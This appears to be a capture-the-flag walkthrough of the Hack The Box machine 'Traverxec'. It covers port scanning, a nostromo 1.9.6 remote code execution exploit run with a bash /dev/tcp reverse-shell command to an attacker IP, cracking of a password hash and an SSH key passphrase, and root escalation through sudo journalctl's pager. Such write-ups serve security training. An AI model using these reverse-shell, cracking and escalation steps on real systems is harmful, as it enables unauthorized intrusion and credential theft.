

# Traverxec
## Recon

[11:05:48] Performing nmap higher-port scan:

```
# Nmap 7.93 scan initiated Wed Jun 14 11:05:48 2023 as: nmap -p- --min-rate 5000 -oA ./Traverxec/nmap/port-scan 10.10.10.165
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.35s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Wed Jun 14 11:06:15 2023 -- 1 IP address (1 host up) scanned in 27.27 seconds

```

[11:06:15] Performing nmap initial scan:

```
# Nmap 7.93 scan initiated Wed Jun 14 11:06:15 2023 as: nmap -sC -sV -v -n -Pn -oA ./Traverxec/nmap/init-scan 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.19s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 14 11:06:45 2023 -- 1 IP address (1 host up) scanned in 29.59 seconds

```

[11:06:45] HTTP VHost enumeration, using ffuf:

```
nothing
```

[11:12:38] HTTP Directory enumeration for traverxec.htb:

```
└─$ gobuster dir -w $WLIST -u $RADDR -t 60 --no-error                                                                                                                                            1 ⨯
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.165
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/14 15:32:32 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://10.10.10.165/img/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.10.165/js/]
/lib                  (Status: 301) [Size: 314] [--> http://10.10.10.165/lib/]
/icons                (Status: 301) [Size: 314] [--> http://10.10.10.165/icons/]
/reports list         (Status: 501) [Size: 310]
/external files       (Status: 501) [Size: 310]
/style library        (Status: 501) [Size: 310]
/modern mom           (Status: 501) [Size: 310]
/neuf giga photo      (Status: 501) [Size: 310]
```

Found out the webserver is **nostromo 1.9.6**

Checked searchsploit for that version. Yep there is an exploit. 

Had to modify the exploit very slightly (comment out one line. Change one string to `bytes(____,'utf-8')` encoding )

Opened the firewall, set up a listener, and ran the exploit as follows:

```
python3 ./47837.py 10.10.10.165 80 "bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

:tada: Got a reverse shell. 

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
david:x:1000:1000:david,,,:/home/david:/bin/bash
```

```
which nc netcat socat curl wget python perl php
/usr/bin/nc
/usr/bin/netcat
/usr/bin/wget
/usr/bin/python
/usr/bin/perl
```

ONLY port 22 and 80 are listening.

Linpeas found the following hash of a credential:
`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`


So if I had to guess, this is a login for the admin panel of the webserver or something.

Identified the hash using `hash-identifier`

```
hash-identifier
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
 HASH: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Possible Hashs:
[+] MD5(Unix)
```

OK, so it's MD5. That should be recognized right away...

```
 echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > hash.txt
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.john
```

And it found a password:

```
Nowonly4me       (david)  
```

Ok, so a valid credential is **david / Nowonly4me** (again, from a .htaccess file, so probably for the webserver)


This is the **nhttpd.conf** file:

```
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www

```

Ahhh ok. So david has a directory `/home/david/public_www/` that is accessible by the webserver. 
ex if `/home/david/public_www/subdir` exists on the filesystem, then we can access it by the url:

http://traverxec.htb/~david/subdir/

In this case, using the rev shell I searched what was the contents:

```
www-data@traverxec:/home$ ls -laR /home/david/public_www
/home/david/public_www:
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area

/home/david/public_www/protected-file-area:
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz

```

so there we have it. And since I've already cracked the password this should be easy.



As expected, there is a file for download:

http://traverxec.htb/~david/protected-file-area/backup-ssh-identity-files.tgz

It turns out that file is an archive of david's .ssh directory. Opening it up reveals three ssh-relevant files:


I'll try the rsa key for logging in...

Drats. There's a passphrase on it. let me take a look at that key...

Ahh yep.That's a passphrase alright... It's PEM encrypted - might be possible to crack. I'll get at that.

```bash
ssh2john id_rsa > id_rsa.john
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
```

Yep! got a result almost immediately:

```
hunter           (id_rsa)    
```

Now, using **id_rsa** with the passphrase "hunter", I should be able to SSH in as david...


Hmm looks like `david` has their own `bin` directory on the path:

```
david@traverxec:~$ echo $PATH
/home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

This could lead to path abuse possibly.

There are two files within: server-stats.head and server-stats.sh. This is server-stats.head:

```
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""' 

```

Cute! :heart_eyes_cat:

And here's server-stats.sh

```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Since journalctl invokes `less` usually, and `less` has a command prompt inside, we can make that last line vulnerable.

Just run the `sudo` part of the final line by itself

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

Make sure to shrink the window down to **fewer than 5 lines tall**. this way, `less` has to scroll, so the -n5 flag doesnt make it terminate immediately. If `less` doesnt terminate, you can run a shell through it. 

I used it to spawn a bash reverse shell and baboom root access :tada:
